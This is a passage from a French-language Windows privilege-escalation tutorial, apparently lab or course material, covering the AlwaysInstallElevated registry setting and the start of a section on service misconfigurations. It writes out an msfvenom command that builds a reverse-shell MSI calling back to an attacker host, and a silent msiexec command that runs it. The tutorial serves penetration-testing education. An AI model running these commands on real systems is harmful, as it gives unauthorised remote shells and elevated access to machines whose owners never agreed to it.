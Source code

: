 Cette méthode nécessite la définition de deux valeurs de registre. Vous pouvez les interroger à partir de la ligne de commande en utilisant les commandes ci-dessous.

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Pour pouvoir exploiter cette vulnérabilité, les deux doivent être activés. Dans le cas contraire, l'exploitation ne sera pas possible. Si elles sont activées, vous pouvez générer un fichier .msi malveillant à l'aide de msfvenom, comme indiqué ci-dessous :

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.154.220 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Comme il s'agit d'un shell inversé, vous devez également exécuter le module Metasploit Handler configuré en conséquence. Une fois que vous avez transféré le fichier que vous avez créé, vous pouvez exécuter l'installateur avec la commande ci-dessous et recevoir le reverse shell :

```powershell
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Exploiter les mauvaises configurations des services

Les services Windows sont gérés par le Service Control Manager (SCM). Le SCM est un processus chargé de gérer l'état des services en fonction des besoins, de vérifier l'état actuel d'un service donné et, d'une manière générale, de fournir un moyen de configurer les services.

Chaque service sur une machine Windows aura un exécutable associé qui sera exécuté par le SCM chaque fois qu'un service est démarré. Il est important de noter que les exécutables de service mettent en œuvre des fonctions spéciales pour pouvoir communiquer avec le SCM et que, par conséquent, n'importe quel exécutable ne peut pas être démarré en tant que service avec succès. Chaque service spécifie également le compte d'utilisateur sous lequel le service sera exécuté.

Pour mieux comprendre la structure d'un service, vérifions la configuration du service apphostsvc avec la commande `sc qc` :

```powershell
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem
```
Ici, nous pouvons voir que l'exécutable associé est spécifié par le paramètre BINARY_PATH_NAME, et que le compte utilisé pour exécuter le service est indiqué dans le paramètre SERVICE_START_NAME.
